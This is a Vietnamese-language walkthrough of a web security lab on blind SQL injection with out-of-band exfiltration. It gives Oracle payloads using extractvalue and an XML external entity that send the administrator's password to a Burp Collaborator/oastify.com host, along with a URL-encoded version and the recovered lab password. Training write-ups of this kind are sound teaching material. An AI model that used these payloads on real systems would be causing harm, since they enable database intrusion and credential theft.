


# Lab: Blind SQL injection with out-of-band data exfiltration

## Mô tả lab

Mục tiêu của lab là lấy mật khẩu của user `administrator`, sau đó đăng nhập để hoàn thành lab.

> Lab này cần Burp Suite Professional vì phải sử dụng Burp Collaborator.

## Các bước thực hiện

## Xác nhận database engine

Như bài trước ta có thể xác định được database phía sau là Oracle, ta có thể tiếp tục dùng payload dựa trên `extractvalue()` và XML external entity.

```sql
'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Để lấy mật khẩu của user `administrator`, ta đưa truy vấn SQL vào.

```sql
'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-DOMAIN/"> %remote;]>'),'/l') FROM dual)--
```

Khi đó Burp Collaborator sẽ ghi nhận interaction và ta có thể đọc được password.

## Payload

`Ctrl U` để encode URL.

```http
'||(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.orjqca177k82dxfrs1rb5pebl2rtfj38.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual)--
```

Sau khi gửi request trong Repeater, mở Collaborator và kiểm tra interaction.



Từ hostname này, ta lấy được password của user `administrator` là `0u4og95t0uhq03x2znvb`.

Login administrator



Lab solved.
